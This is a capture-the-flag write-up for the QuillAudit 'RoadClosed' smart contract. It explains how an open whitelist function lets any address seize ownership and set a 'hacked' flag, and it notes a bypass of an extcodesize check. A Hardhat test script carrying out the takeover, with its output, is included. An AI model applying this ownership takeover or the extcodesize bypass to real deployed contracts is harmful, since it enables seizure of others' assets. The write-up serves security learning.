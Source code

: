# QuillAudit CTF RoadClosed

## Vulnerability

The vulnerability for this CTF lies with the function ***addToWhiteList()*** which updates the mapping ***whitelistedMinters*** for the parameter “addr” to “true”. 

Once this step is done, the ***changeOwner()*** function allows all whitelisted addresses to change the owner. This function is not very intuitive from a security standpoint as it allows all whitelisted users to make changes to the ownership of the contract. An “***onlyOwner***” modifier can be used to restrict the calling of changeOwner only to the current owner of the contract.

Once the ownership of the contract is obtained, the “***pwn(address addr)***” is to be called to change the value of the state var “hacked” to true 

One more potential vulnerability is the use of ***extcodesize*** to check if the account is an EOA. This check can be surpassed if a contract is calling while its constructor is running. This is because of the fact that a contract address while being initialized (when the constructor is being executed) does not have any code and thus ***extcodesize*** will return zero

  

## Attack Steps

### Step 1:

Function *addToWhiteList(address addr)* will be called with parameter as the attackers address which will whitelist the attacker’s address in the mapping *whiteListedMinters*

### Step 2:

Function *changeOwner(address addr)* is called with the whitelisted address of the attacker as the parameter, making sure that the msg.sender for the call is the same as the param.

This step achieves the first objective of the CTF

### Step 3:

Function *pwn(address addr)* is called from the same address which has just obtained the ownership changing the *hacked* to true.

This achieves the second objective of the CTF

## POC

Here is a code snippet as POC

```jsx
require('@nomiclabs/hardhat-truffle5');
const { anyValue } = require("@nomicfoundation/hardhat-chai-matchers/withArgs");
const { ethers, contract } = require('hardhat')
const RB=artifacts.require("RoadClosed.sol");
contract ("Splits",(accounts)=>{
        let [alice,bob,carey]=accounts;
        let contractInstance;
        beforeEach(async () => {
            contractInstance = await RB.new();
        });
    describe("Tests", ()=>{
        it("Calling whitelistaddress", async()=>{
            var step1=await contractInstance.addToWhitelist(alice);
            var whiteList=await contractInstance.whitelistedMinters(alice);
						//had to make the mapping public to have access to a getter function for the mapping
            console.log(whiteList);
        }    
    )
        it("Calling the changeOwner function with parameter alice",async()=>{
            const step1=await contractInstance.addToWhitelist(bob);
            console.log("Owner before step 2", await contractInstance.isOwner({from:bob}));
            const step2=await contractInstance.changeOwner(bob,{from: bob});
            console.log("Owner after step 2", await contractInstance.isOwner({from:bob}));
        })
        it("Calling the pwn(address addr) function",async()=>{
            const step1=await contractInstance.addToWhitelist(bob);
            const step2=await contractInstance.changeOwner(bob,{from:bob});
            console.log("Hacked before step 3", await contractInstance.isHacked());
            const step3= await contractInstance.pwn(bob,{from:bob});
            console.log("Hacked after step 3", await contractInstance.isHacked());
            

        })
    
    })
})
```

Results

```jsx
✔ Calling whitelistaddress (55ms)
Owner before step 2 false
Owner after step 2 true
      ✔ Calling the changeOwner function with parameter alice (59ms)
Hacked before step 3 false
Hacked after step 3 true
      ✔ Calling the pwn(address addr) function (63ms)

  3 passing (954ms)
```